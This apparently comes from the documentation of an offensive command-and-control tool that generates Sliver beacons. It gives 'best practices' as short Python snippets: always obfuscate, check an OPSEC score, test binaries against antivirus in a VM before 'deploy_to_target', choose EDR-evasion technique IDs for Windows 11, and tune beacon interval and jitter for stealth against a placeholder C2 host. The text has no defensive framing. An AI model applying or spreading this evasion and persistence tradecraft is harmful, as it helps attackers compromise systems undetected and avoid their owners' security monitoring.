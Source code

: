 ```python
```

---

## Best Practices

### 1. Always Use Obfuscation

```python
# Good
result = generate_beacon(..., obfuscate=True)

# Bad
result = generate_beacon(..., obfuscate=False)
```

### 2. Check OPSEC Score

```python
if result.opsec_score < 7:
    print("Warning: Low OPSEC score")
    # Add more techniques or improve obfuscation
```

### 3. Test in Isolated Environment

```python
# Deploy to test VM first
deploy_to_vm('test-win11-vm', binary_path)

# Monitor for alerts
check_av_alerts()

# If clean, proceed to production
if no_alerts:
    deploy_to_target(binary_path)
```

### 4. Use Appropriate Techniques for Target

```python
# Windows 10
techniques_win10 = ['NOCTIS-T124', 'NOCTIS-T118']

# Windows 11 + EDR
techniques_win11_edr = ['NOCTIS-T124', 'NOCTIS-T125', 'NOCTIS-T201', 'NOCTIS-T202']
```

### 5. Beacon Interval Tuning

```python
# Active operation (frequent callbacks)
config = SliverConfig(
    listener_host="c2.example.com",
    beacon_interval=30,  # 30 seconds
    beacon_jitter=20     # 20% jitter
)

# Persistent (stealth)
config = SliverConfig(
    listener_host="c2.example.com",
    beacon_interval=3600,  # 1 hour
    beacon_jitter=80       # 80% jitter
)
```
